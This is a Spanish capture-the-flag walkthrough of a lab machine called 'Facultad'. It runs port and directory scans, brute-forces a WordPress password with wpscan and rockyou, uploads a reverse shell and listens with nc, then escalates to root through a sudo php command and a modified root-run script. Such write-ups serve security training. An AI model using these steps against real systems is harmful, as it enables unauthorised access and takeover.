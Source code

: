 ```yaml
---
description: >-
  ✍️ Autor: beafn28🔍 Dificultad: Fácil📅 Fecha de creación: 30/1/2025 🖥️The
  Hacker Labs
---
```


# Facultad

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.61
```

para verificar la conectividad de red.

<figure><img src="../.gitbook/assets/image (1034).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 192.168.1.61
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) ( (8).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 192.168.1.61
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../.gitbook/assets/image (1036).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web sea como el Studium de una asignatura en este caso se llama Administración de Sistemas.

<figure><img src="../.gitbook/assets/image (1037).png" alt=""><figcaption></figcaption></figure>

Ahora buscaremos directorios con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://192.168.1.61/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

<figure><img src="../.gitbook/assets/image (1038).png" alt=""><figcaption></figcaption></figure>

Vamos a ver el contenido del directorio`/images`.

<figure><img src="../.gitbook/assets/image (1039).png" alt=""><figcaption></figcaption></figure>

Nos la descargamos para realizar la técnica de esteganografía.

<figure><img src="../.gitbook/assets/image (1040).png" alt=""><figcaption></figcaption></figure>

Vemos el contenido del archivo. Descubrimos dos posibles usuarios.

<figure><img src="../.gitbook/assets/image (1041).png" alt=""><figcaption></figcaption></figure>

Vamos a ver el contenido del directorio`/education`.&#x20;

<figure><img src="../.gitbook/assets/image (1042).png" alt=""><figcaption></figcaption></figure>

Como podemos comprobar es un WordPress por lo que añadimos el dominio **facultad.thl** a **/etc/hosts**.

<figure><img src="../.gitbook/assets/image (1043).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Al tener el directorio wp-admin sabemos que es un panel de login pero no tenemos las credenciales por lo que con **WPScan** enumeramos el usuario.

```bash
wpscan --url http://192.168.1.61/education/ --enumerate u,vp
```

<figure><img src="../.gitbook/assets/image (1044).png" alt=""><figcaption></figcaption></figure>

Sabiendo el usuario tenemos que conseguir la contraseña.

```bash
wpscan --url http://192.168.1.61/education/ --passwords /usr/share/wordlists/rockyou.txt --usernames facultad
```

<figure><img src="../.gitbook/assets/image (1045).png" alt=""><figcaption></figcaption></figure>

Ingresamos las credenciales en el panel de **login**.

<figure><img src="../.gitbook/assets/image (1046).png" alt=""><figcaption></figcaption></figure>

Vemos que hay un apartado para subir archivos por lo que adjuntamos una [ReverseShell](https://www.revshells.com/).

<figure><img src="../.gitbook/assets/image (1047).png" alt=""><figcaption></figcaption></figure>

Nos ponemos en escucha.

```bash
nc -nlvp 443
```

<figure><img src="../.gitbook/assets/image (1048).png" alt=""><figcaption></figcaption></figure>

Hacemos el [tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/) para trabajar más cómodos.

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../.gitbook/assets/image (1049).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://gtfobins.github.io/gtfobins/php/" %}

```bash
sudo -u gabri php -r "system('/bin/bash');"
```

Como comprobamos en el mensaje la contraseña de Vivian está en el mail de Gabri.

<figure><img src="../.gitbook/assets/image (1050).png" alt=""><figcaption></figcaption></figure>

Mostramos el contenido que es la contraseña codificada en **Brainfuck** por lo que la decodificamos.

<figure><img src="../.gitbook/assets/image (1051).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (1052).png" alt=""><figcaption></figcaption></figure>

Iniciamos sesión con las credenciales.

<figure><img src="../.gitbook/assets/image (1053).png" alt=""><figcaption></figcaption></figure>

Tenemos permisos de **root** para ejecutar un script.

<figure><img src="../.gitbook/assets/image (1054).png" alt=""><figcaption></figcaption></figure>

Vemos el contenido y así podemos modificarlo para escalar privilegios. Nos damos cuenta que el script se ejecuta cada minuto en el **/etc/crontab**.

<figure><img src="../.gitbook/assets/image (1055).png" alt=""><figcaption></figcaption></figure>

```bash
#!/bin/bash
bash
```

Ejecutamos.

```
sudo /opt/vivian/script.sh
```

<figure><img src="../.gitbook/assets/image (1056).png" alt=""><figcaption></figcaption></figure>

Ya somos **root** por lo que ahora encontraremos la bandera en sus directorios.

Te deseo mucho éxito en tu búsqueda de las flags! Recuerda prestar atención a cada detalle, examinar los archivos y servicios con detenimiento, y utilizar todas las herramientas disponibles para encontrarlas. La clave para el éxito está en la perseverancia y en no dejar ningún rincón sin explorar. ¡Adelante, hacker! 💻🔍🚀
